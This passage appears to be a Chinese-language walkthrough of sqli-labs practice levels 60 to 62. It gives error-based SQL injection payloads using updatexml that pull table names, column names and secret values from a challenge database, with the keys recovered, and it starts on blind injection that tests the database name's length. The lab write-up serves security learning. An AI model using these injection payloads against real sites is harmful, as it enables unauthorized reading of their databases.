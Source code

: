 **报错注入（五次限制）-")**

#### 

```
#获得表名：

?id=1") and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES') ),1)--+

#获取字段：
?id=1") and updatexml(1,concat(0x7e,(select group_concat(column_name) from Information_schema.columns where table_name='801z2q3ff4' )),1)--+

 #获取字段的值：
 ?id=1") and updatexml(1,concat(0x7e,(select group_concat(secret_9N7R) from challenges.801z2q3ff4 )),1)--+

 Iy2k37ZvBStuGa5Xq0b8aUGy
```

## Less-61

**报错注入（五次限制）-'))**

#### 

```
#获得表名：

?id=1')) and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES') ),1)--+

#获取字段：
?id=1')) and updatexml(1,concat(0x7e,(select group_concat(column_name) from Information_schema.columns where table_name='v9gnhvugn2' )),1)--+

 #获取字段的值：
 ?id=1')) and updatexml(1,concat(0x7e,(select group_concat(secret_9EHB) from challenges.v9gnhvugn2 )),1)--+

 s1DwpRlu1CKlzFP65tuY5DkN
```

#### 

## Less-62

**-盲注-')**

此处union和报错注入都已经失效了，那我们就要使用盲注了。

- 爆当前数据库的长度:

```
?id=1') and length(database())>8 #   正确 
?id=1') and length(database())>9 #   正确 
?id=1') and length(database())>10 #  错误 
?id=1') and length(database())=10 #  正确 
```
